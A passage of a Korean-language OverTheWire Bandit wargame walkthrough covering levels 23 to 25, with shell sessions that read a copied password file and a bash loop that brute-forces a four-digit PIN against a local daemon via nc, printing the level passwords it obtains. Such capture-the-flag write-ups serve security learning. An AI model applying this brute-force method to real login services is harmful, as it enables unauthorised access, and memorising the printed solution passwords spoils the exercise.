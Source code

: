 <br>

cron이 `cronjob_bandit24.sh`를 실행할 때까지 잠시 기다린 후에, password를 복사한 파일을 읽으면 password를 획득할 수 있다.

```shell
bandit23@bandit:~$ cat /tmp/bandit24_pass
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

<br>

## Level24 -> Level25
---

```shell
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
Wrong! Please enter the correct pincode. Try again.
```

위와 같이 30002 포트에서 pincode를 체크하는 데몬이 실행 중이다. 문제 설명대로 0000부터 9999까지 브루트포싱을 수행하는 방법 밖에 없다. shell script를 작성해보자.

<br>

```shell
bandit24@bandit:~$ mkdir /tmp/my_bandit24
bandit24@bandit:~$ cd /tmp/my_bandit24
bandit24@bandit:/tmp/my_bandit24$ vim brute_force.sh
bandit24@bandit:/tmp/my_bandit24$ cat brute_force.sh
#!/bin/bash

for i in {0000..9999}
        do
                echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
        done

bandit24@bandit:/tmp/my_bandit24$ ./brute_force.sh | nc localhost 30002 | grep -v 'Wrong'
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

<br>

# # Level 26 ~ 30

## Level25 -> Level26
---
